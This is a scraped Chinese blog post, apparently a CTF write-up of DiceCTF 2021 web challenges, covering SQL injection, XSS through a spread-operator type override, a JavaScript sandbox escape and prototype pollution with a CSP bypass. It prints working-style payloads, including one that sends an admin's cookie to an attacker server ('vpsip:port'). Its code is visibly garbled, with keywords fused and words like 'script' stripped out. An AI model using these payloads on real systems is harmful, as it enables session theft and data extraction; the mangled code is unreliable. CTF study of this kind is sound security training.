<!--yml
category: 未分类
date: 2022-04-26 14:31:28
-->

# ctf赛题secret.php,记一场纯JS赛——DiceCTF2021 Web题解_自强自在的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_42509398/article/details/115649147](https://blog.csdn.net/weixin_42509398/article/details/115649147)

// remake the `users` tabledb.exec( `DROP TABLE IF EXISTS users;`);db.exec( `CREATE TABLE users(id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT);`);

// add an admin user with a random passworddb.exec( `INSERT INTO users (username, password) VALUES ('admin',' ${crypto.randomBytes(16).toString('hex')}')`);

constexpress = require( 'express');constbodyParser = require( 'body-parser');

constapp = express;

// parse json and serve static filesapp.use(bodyParser.urlencoded({ extended: true}));app.use(express.static( 'static'));

// login routeapp.post( '/login', ( req, res) =>{if(!req.body.username || !req.body.password) {console.log( 'first')returnres.redirect( '/');}

if([req.body.username, req.body.password].some( v=>v.includes( '''))) {console.log( "detected")returnres.redirect( '/');}

// see if user is in databaseconstquery = `SELECT id FROM users WHEREusername = ' ${req.body.username}' ANDpassword = ' ${req.body.password}'`;console.log(query)

letid;try{id = db.prepare(query).get?.id} catch{returnres.redirect( '/');}

// correct loginif(id) returnres.sendFile( 'flag.html', { root: __dirname });

// incorrect loginreturnres.redirect( '/');});

app.listen( 3000,debug= true);console.log( "start!")

很明显在查询语句处存在一个sql注入，只需要传入username=admin’ or ‘1’=’1—%20即可，但问题是中间过滤了单引号。

后来一搜索，发现这道题目的原题是redpwnCTF2020的login，跟原题比较一下，发现原题在开始处判断了username和password是不是string类型，而本题没有，于是考虑到用数组绕过。

username[]=admin 'or '1'='1-- &password= 1



Web Utils

这个网站实现了剪贴板的功能，例如在上面输入一些文字，点击shorten，就会生成对应一个网址的短链接，访问可以看到之前存的文字



本题目也是明确在描述中说明，需要拿到管理员cookie，基于这一点，又我们输入的内容会直接回显到页面上，我想不是直接构造一个xss就ok了嘛，于是写了xss尝试访问



但是什么都没有发生，于是去看源码(注：每道题主办方都提供了源码下载)，在页面显示这块，对应的view.html

< html>< head>< async>( async=> {constid = window.location.pathname.split( '/')[ 2];console.log(id)console.log( window.origin)if(! id) window.location = window.origin;constres = awaitfetch( ` ${ window.origin}/api/data/ ${id}`);const{ data, type } = awaitres.json;if(! data || ! type ) window.location = window.origin;if(type === 'link') returnwindow.location = data;if( document.readyState !== "complete")awaitnewPromise( ( r) =>{ window.addEventListener( 'load', r); });document.title = 'Paste';document.querySelector( 'div').textContent = data;}) > head>< body>< divstyle= "font-family: monospace"> div> body> html>

这里的data，就是我们在剪贴板上存的数据。关键在于这里是用textContent来输出的data，搜索一番后发现，这玩意好像是没办法xss的。于是把目光放到另一句

if( type=== 'link') returnwindow.location = data;

因为data就是用户输入的数据，假如构造一个

window.location=java:alert( 1)

就可以实现xss了。所以需要构造一个type为link，且data为java:alert(1)的数据，再访问。

但是看一下createLink路由的代码做了一个正则校验，只能插入http开头的数据

constregex = newRegExp( '^https?://');if(! regex.test(req.body.data))returnrep.code( 200).header( 'Content-Type', 'application/json; charset=utf-8').send({statusCode: 200,error: 'Invalid URL'});

而createPaste路由处没有任何校验,这里的关键是这一句

database.addData({ type: 'paste', ...req.body, uid });//addData函数定义conststatements = {addData: db.prepare( `INSERT INTO data (uid, data, type) VALUES (?, ?, ?);`)}addData: ( { uid, data, type}) =>{statements.addData.run(uid, data, type);},

这里使用了...req.body作为函数的参数

在nodejs中，连续3个点被称spread operator，作用在函数定义中的参数上，有可变参数的效果，允许函数接收不定个数的参数。在函数内部，将spread operator作用的参数当作数组对待。

而且这里的...req.body参数在type参数后面，这里我们通过post传包括type的json格式的参数，在解析的时候，就可以覆盖掉前面的type:'paste'，从而实现构造一个link类型的，且内容为java:alert(1)的数据。找到这一点就很容易了，首先post一个请求，创造link类型的xss数据



然后再去访问对应的地址，譬如这里就是http://web-utils.dicec.tf/view/FfJDXjrM



成功，下一步就是改alert(1)为打cookie，vps接收flag了







Build a Panel

首先，在源码server.js开头看到

let innerQuery = ` INSERTINTOflag SELECT'dice{fake_flag}'`;db.run(innerQuery);

再加上下面大量的sql查询，盲猜这个题就是考察sql注入。测试功能后发现，这个网站有create、edit功能，由于下面这段代码的限制，edit的内容只有符合这三种类型才会显示

constavailableWidgets = [ 'time', 'weather', 'welcome'];app. get( '/status/:widgetName', (req, res) => {constwidgetName = req. params.widgetName;

if(availableWidgets.includes(widgetName)){if(widgetName == 'time'){res.json({ 'data': 'now :)'});} elseif(widgetName == 'weather'){res.json({ 'data': 'as you can see widgets are not fully functional just yet'});} elseif(widgetName == 'welcome'){res.json({ 'data': 'No additional data here but feel free to add other widgets!'});}} else{res.json({ 'data': 'error! widget was not found'});}});

sql语句接收我们输入的地方有3处

// /panel/widgetsquery = ` SELECTwidgetname, widgetdata FROMwidgets WHEREpanelid = ? `;// /panel/addquery = `ALUES (?, ?, ?) `;

前两处路由都做了预编译，显然无法注入，于是只能考虑第三处

app.get( '/admin/debug/add_widget', async(req, res) => {constcookies = req.cookies;constqueryParams = req.query;if(cookies[ 'token'] && cookies[ 'token'] == secret_token){query = `INSERT INTO widgets (panelid, widgetname, widgetdata) VALUES (' ${queryParams[ 'panelid']}', ' ${queryParams[ 'widgetname']}', ' ${queryParams[ 'widgetdata']}');`;db.run(query, (err) => {if(err){console.log(err);res.send( 'something went wrong');} else{res.send( 'success!');}});} else{res.redirect( '/');}});

这里只能admin才能进行访问，但这个题目同样有一个admin bot，所以我们只要构造好url让admin bot访问添加数据即可。

从源码中已知flag在flag表中，所以我们可以这么注入

?panelid=72a8ca36-fae5-4985-9742-b87b53e30222',( selectflag fromflag), '{"type":"time"}'); -- &widgetname=a&widgetdata=a

注意这里的panelid换成自己对应的panelid，通过上面的注入，相当于得到了下面的sql语句

INSERTINTOwidgets (panelid, widgetname, widgetdata) VALUES( '72a8ca36-fae5-4985-9742-b87b53e30222', ( selectflag fromflag), '{"type":"time"}'); -- ','a','a');

最终用请求的url编码一下就是

https: //build-a-panel.dicec.tf/admin/debug/add_widget?panelid=72a8ca36-fae5-4985-9742-b87b53e30222%27,(select%20*%20from%20flag),%27{"type":"time"}%27);%20--%20&widgetname=a&widgetdata=a

用admin bot发起请求后，在自己的/panel路径下就可以看到flag

Web IDE

题目给了一个js代码编辑和运行页面，首先在源码中，很容易发现

app.post( '/ide/login', ( req, res) =>{const{ user, password } = req.body;switch(user) {case'guest':returnres.cookie( 'token', 'guest', {path: '/ide',sameSite: 'none',secure: true}).redirect( '/ide/');case'admin':if(password === adminPassword)returnres.cookie( 'token', `dice{ ${process.env.FLAG}}`, {path: '/ide',sameSite: 'none',secure: true}).redirect( '/ide/');break;}res.status( 401).end;});

所以思路就是获取到admin的cookie

app.use( '/', ( req, res, next) =>{res.setHeader( 'X-Frame-Options', 'DENY');returnnext;});// sandbox the sandboxapp.use( '/sandbox.html', ( req, res, next) =>{res.setHeader( 'Content-Security-Policy', 'frame-src 'none'');// we have to allow this for obvious reasonsres.removeHeader( 'X-Frame-Options');returnnext;});

通过上面的代码限制，我们只能在sandbox.html这里用iframe

在/ide路由下查看源码，可以看到有一个sanbox.js，代码如下

constsafeEval = ( d) =>(function( data){with( newProxy( window, {get: ( t, p) =>{if(p === 'console') return{ log };if(p === 'eval') returnwindow.eval;returnundefined;}})){eval(data);}}).call( Object.create( null), d);

可以看到有个eval，考虑再利用它进行代码执行。

首先尝试了使用console.log([].constructor.constructor);，发现拿到了function Function { [native code] }



继续尝试console.log([].constructor.constructor('return eval(1+1)'));



但是由于同源策略限制，不可能直接拿到cookie，还得走sandbox.html



解决办法就是，在服务器上构造一个没有sandbox="allow-s"这个属性限制的iframe，代码如下:

< body>< iframesrc= "https://web-ide.dicec.tf/sandbox.html"width= "800"height= "400"> iframe>< >letxss = `console.log(window.location)`,payload = `''.sub.constructor('eval( ${xss})')`,frame = document.querySelector( "iframe");frame.addEventListener( "load", function( e){console.log( "loaded")frame.contentWindow.postMessage(payload, '*');}); > body>

在本机服务器上写了这样一个页面，访问后在控制台成功打印了window.location属性，但是存储着flag的cookie只在/ide路由下可见

所以需要改一下代码执行部分，改成使用window.open打开/ide(此时跟sandbox.html同源)，然后把对应cookie打到vps监听端口即可。

< html>< body>< iframesrc= "https://web-ide.dicec.tf/sandbox.html"width= "800"height= "400"> iframe> body>< >letxss = btoa( `eval("const win = window.open('/ide');setTimeout(function{window.location.href='http://vpsip:port/?q='+win.document.cookie},3000)")`);payload = `[].constructor.constructor('eval(atob(' ${xss}'))')`;frame = document.querySelector( "iframe");frame.addEventListener( "load", function( e){console.log( "loaded")frame.contentWindow.postMessage(payload, '*');}); > html>

用admin bot访问服务器对应地址即可



Build a Better Panel

这个题是Build a Panel的升级版，diff了一下，代码只改变了一点，就是设置cookie的sameSite属性为strict

63c63< res.cookie( 'panelId', newPanelId, { maxage: 10800, httponly: true, sameSite: 'lax'});---> res.cookie( 'panelId', newPanelId, { maxage: 10800, httponly: true, sameSite: 'strict'});149c149< res.cookie( 'token', secret_token, { maxage: 10800, httponly: true, sameSite: 'lax'});---> res.cookie( 'token', secret_token, { maxage: 10800, httponly: true, sameSite: 'strict'});

设置cookie的sameSite属性为strict的后，跨站点时，任何情况下都不会发送 Cookie。除此之外，在题目描述中还说明了一个限制:

NOTE: The admin will only visit sites that match the following regex ^https://build-a-better-panel.dicec.tf/create?[0-9a-z-=]+$

也就是admin这次只能访问/create路由了，于是只能找其他方法绕过。

首先注意到custom.js中的这段代码

constmergableTypes = [ 'boolean', 'string', 'number', 'bigint', 'symbol', 'undefined'];constsafeDeepMerge = ( target, source) =>{for( constkey insource) {if(!mergableTypes.includes( typeofsource[key]) && !mergableTypes.includes( typeoftarget[key])){if(key !== '__proto__'){safeDeepMerge(target[key], source[key]);}} else{target[key] = source[key];}}}

循环赋值，并且检查了__proto__关键字，看起来应该有原型链污染，但这里过滤了__proto__这个关键字让我不知道怎么搞了。比赛的时候在这里思路卡死了，后来看到别人说这个poc，简单来说，就是可以通过

Object.prototype. = 'alert(1)'

来实现xss，在我们这个题目里，对应的就是构造

target. constructor.prototype. = 'alert(1)'

于是构造

{"widgetName": "constructor","widgetData": "{"prototype":{"":"alert"}}"}

传给/panel/add接口，然后再去访问/panel，在控制台测试一下



可以看到确实成功实现了Object.prototype. = 'alert(1)'，但是并没有弹窗，因为还存在一个CSP的限制

Content-Security-Policy: default-src 'none'; -src 'self'http: //cdn.embedly.com/; style-src 'self' http://cdn.embedly.com/; connect-src 'self' https://www.reddit.com/comments/;

Bypass CSP用到的是iframe的srcdoc属性，

srcdoc 属性是一段HTML代码，这些代码会被渲染到 iframe 中。如果浏览器不支持 srcdoc 属性，则会渲染 src 属性表示的内容。

但是还有一个问题，及时我们设置了iframe的srcdoc属性为java，仍然无法执行，这是因为-src:self限制了我们只能执行同源脚本，

但是我们可以利用link标签绕过,网址的payload跟上一个一样，因为注入点没改。

< linkrel= stylesheethref= "https://build-a-better-panel.dicec.tf/admin/debug/add_widget?panelid=01603e38-9326-4a12-b499-9c1b78d653a6'%2C%20(select%20flag%20from%20flag)%2C%20'1')%3B--&widgetname=1&widgetdata=1"> link>

所以最终步骤是

1.构造payload

console.log(JSON.stringify({widgetName: 'constructor',widgetData: JSON.stringify({prototype: {srcdoc: ``}})}))//{ "widgetName": "constructor", "widgetData": "{"prototype ":{"srcdoc ":" "}}"}

2.在/panel/add通过原型链污染，往srcdoc属性注入link的内容



3.然后再用admin bot去访问对应的地址，注意这里利用/create?debugid=xxx带上自己cookie中的panelId即可



4.回去/panel就可以看到flag了



参考链接

1.https://github.com/aszx87410/ctf-writeups/issues/16

2.https://developer.mozilla.org/zh-CN/docs/Web/HTML/Element/iframe

3.https://developer.mozilla.org/zh-CN/docs/Web/Java/Reference/Operators/Spread_syntax

4.https://blog.bi0s.in/2021/02/09/Web/DiceCTF21-WebIDE/

5.https://blog.bi0s.in/2021/02/09/Web/BuildAbetterPanel-dice21/返回搜狐，查看更多